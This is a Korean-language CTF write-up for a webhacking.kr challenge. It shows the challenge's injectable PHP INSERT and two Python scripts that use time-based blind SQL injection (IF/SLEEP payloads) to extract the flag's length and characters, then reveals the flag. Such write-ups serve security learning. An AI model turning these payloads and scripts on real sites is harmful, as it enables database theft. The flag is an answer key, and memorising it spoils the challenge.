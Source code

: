# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-45-28.png)


# **Write-Up**

view-source를 보면 넣는 데이터에 대해 출력 부가 없다. 따라서 sleep등을 이용한 BlindSQLi를 해야할 것 같다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  if($_GET['msg'] && isset($_GET['se'])){
    $_GET['msg'] = addslashes($_GET['msg']);
    $_GET['se'] = addslashes($_GET['se']);
    if(preg_match("/select|and|or|not|&|\||benchmark/i",$_GET['se'])) exit("Access Denied");
    mysqli_query($db,"insert into chall57(id,msg,pw,op) values('{$_SESSION['id']}','{$_GET['msg']}','{$flag}',{$_GET['se']})");
    echo "Done<br><br>";
    if(rand(0,100) == 1) mysqli_query($db,"delete from chall57");
  }
?>
... 생략 ...
```

pw에 flag가 들어가므로 flag의 길이를 구해보자.

```python
import requests
import time
import math

CHALLENGE   = 'https://webhacking.kr/challenge/web-34/'
SESSID      = 'kfsvuf6pabeltajihf1f0cu82g'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(64):
    se          = 'IF(LENGTH(pw)={},SLEEP(2), SLEEP(0))'.format(i)
    url         = CHALLENGE + '?msg=a&se='+se
    s_time      = time.time()
    req         = requests.get(url=url, headers=headers)
    delay       = math.trunc(time.time() - s_time)
    if delay >= 2: print('password length = {}'.format(i))

[Output]
password length = 24
```

FLAG를 획득하자. sleep 특성 상 네트워크 및 서버 등 여러 요인에 의해 오차가 생길 수 있다,

```python
import requests
import time
import math
import string

CHALLENGE   = 'https://webhacking.kr/challenge/web-34/'
SESSID      = 'kfsvuf6pabeltajihf1f0cu82g'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag        = ''
for i in range(25):
    for c in (string.ascii_lowercase + string.digits + string.punctuation).strip():
        se          = 'IF(SUBSTR(pw,{},1)=0x{},SLEEP(2),SLEEP(0))'.format(i, c.encode().hex())
        url         = CHALLENGE + '?msg=a&se='+se
        s_time      = time.time()
        req         = requests.get(url=url, headers=headers)
        delay       = math.trunc(time.time() - s_time)
        if delay >= 2:
            flag += c
            print('flag = {}'.format(flag))
            break

[Output]
... 생략 ...
flag = flag{y2u.be/kmpgjr0el64}
```

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-03-46-08.png)


# **FLAG**

**flag{y2u.be/kmpgjr0el64}**